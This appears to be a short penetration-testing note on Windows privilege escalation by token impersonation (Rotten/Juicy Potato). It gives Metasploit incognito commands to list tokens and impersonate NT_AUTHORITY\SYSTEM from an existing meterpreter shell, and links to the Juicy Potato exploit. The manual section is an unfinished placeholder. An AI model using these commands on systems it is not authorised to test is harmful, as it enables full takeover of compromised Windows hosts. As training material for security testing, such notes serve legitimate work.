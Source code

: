-- -
#### metasploit
```bash
# Assuming you have a meterpreter shell
# load incognito module
load incognito

# list impersonate tokens
list_tokens -u

# if you find something to use, in this case NT_AUTHORITY\SYSTEM
impersonate_token "NT_AUTHORITY\SYSTEM"
```
#### Manual Exploitation
Come back and do this you lazy bum. 
- [Download Exploit Executable](https://github.com/ohpe/juicy-potato)
- [Then do what's outlined here](https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation/juicypotato)
#### Resources
- [Rotten Potato's Blog post](https://foxglovesecurity.com/2016/09/26/rotten-potato-privilege-escalation-from-service-accounts-to-system/)
- [Juicy Potato Repo](https://github.com/ohpe/juicy-potato)